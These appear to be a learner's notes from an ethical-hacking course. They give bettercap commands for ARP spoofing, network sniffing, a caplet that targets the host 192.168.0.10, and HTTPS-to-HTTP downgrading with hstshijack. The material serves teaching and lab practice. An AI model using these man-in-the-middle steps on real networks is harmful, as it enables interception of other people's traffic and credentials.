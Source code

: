 ## chapter 38

```sh
bettercap -iface [interface]p
> help
> help net.probe
> net.show

> set arp.spoof.fullduplex true
> set arp.spoof.targets [targetIP]
> arp.spoof on
```

## chapter 39

```sh
# in bettercap
> net.sniff on
```
vulnweb.com

## chapter 40
write caplet
```sh
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.0.10
arp.spoof on
net.sniff on
```

```sh
bettercap -iface eth0 -caplet [capletFile]
```
## chapter 41
Encrypt HTTP using TLS(Transport Layer Security) or SSL(Secure Sockets Layer)

Downgrade HTTPS to HTTP

```sh
cd /usr/share/bettercap/caplets
# delete old hstshijack
# copy form the udemy
```

modify caplet
```sh
net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 192.168.0.10
arp.spoof on
set net.sniff.local true
net.sniff on
```
